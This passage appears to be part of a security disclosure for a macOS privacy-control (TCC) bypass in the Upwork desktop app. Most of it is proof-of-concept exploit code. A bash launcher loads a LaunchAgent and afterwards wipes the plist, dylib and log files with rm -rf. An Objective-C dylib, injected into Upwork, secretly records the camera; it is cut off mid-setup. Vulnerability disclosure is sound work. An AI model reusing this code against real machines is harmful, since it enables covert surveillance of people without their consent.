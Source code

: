 ```bash
echo "[i] Launching the LaunchAgent"
launchctl load -w ~/Library/LaunchAgents/$PLIST

echo "[i] Sleeping for 5 seconds"
sleep 5

echo "[i] Moving video to current directory"
VID_PATH=$(cat /tmp/$LOGFILE.log | grep "Saved" | cut -d ']' -f 2 | cut -d ' ' -f 7)
mv $VID_PATH . 

echo "[i] Cleaning up"
echo "    [i] Removing ~/Library/LaunchAgents/$PLIST"
rm -rf ~/Library/LaunchAgents/$PLIST

echo "    [i] Removing /tmp/$EXPLOIT_NAME.dylib"
rm -rf /tmp/$EXPLOIT_NAME.dylib

echo "    [i] Removing /tmp/$LOGFILE.log"
rm -rf /tmp/$LOGFILE.log 2>/dev/null

echo "[i] Opening $LOGFILE.mov"
open $LOGFILE.mov

echo "    [i] Sleeping 5 seconds"
sleep 5

echo "    [i] Removing $VID_PATH"
rm -rf /tmp/$LOGFILE.log 2>/dev/null

echo "[i] Finished !!!"
########################################################################################################################
```

### upwork_runtime_bypass_tcc_bypass.m
The following Objective-C exploit code was compiled into a dynamic library (dylib) to preload into `/Applications/Upwork.app/Contents/MacOS/Upwork` and capture a 3-second video recording without the users permission.

```objc
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>
@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *videoDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *movieFileOutput;
- (void)startRecording;
- (void)stopRecording;
@end

@implementation VideoRecorder
- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}

- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;
```